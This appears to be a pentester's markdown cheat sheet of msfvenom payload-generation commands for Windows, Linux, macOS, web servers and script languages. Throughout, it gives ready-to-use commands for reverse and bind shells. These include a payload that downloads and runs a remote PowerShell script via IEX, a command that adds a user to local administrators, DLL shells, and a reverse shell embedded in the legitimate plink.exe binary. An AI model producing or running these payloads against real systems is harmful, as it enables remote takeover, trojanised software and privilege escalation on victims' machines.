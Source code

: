 ## Windows

**Reverse Shell meterpreter ** 
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.18 LPORT=5050 -f exe > reverse.exe
```

Bind Shell
```sh
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```

**CMD Shell**

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```

**Execute Command**
```sh
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe


msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```

**DLL** : 
```sh
msfvenom -f dll -p windows/exec CMD="C:\windows\system32\cmd.exe" -o srrstr.dll
```

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.167 LPORT=4242 -f dll > shell.dll
```

```sh
msfvenom -p windows/x64/shell_reverse_tcp -ax64 -f dll LHOST=10.8.0.173 LPORT=9001 > hostfxr.dll
```

**Embedded inside executable**

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```


## Linux Payloads


**Reverse Shell**
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf

msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```

Bind Shell
```sh
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```


## MAC Payloads


**Reverse Shell:**

```sh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```

**Bind Shell**

```sh
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```

## Web Based Payloads

**PHP**

```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**ASP/x**

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
```

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```

**JSP**

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```


WAR

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```

NodeJS

```sh
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```

## Script Language payloads

**Perl**
```sh
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```

**Python**
```sh
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```

**Bash**
```sh
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```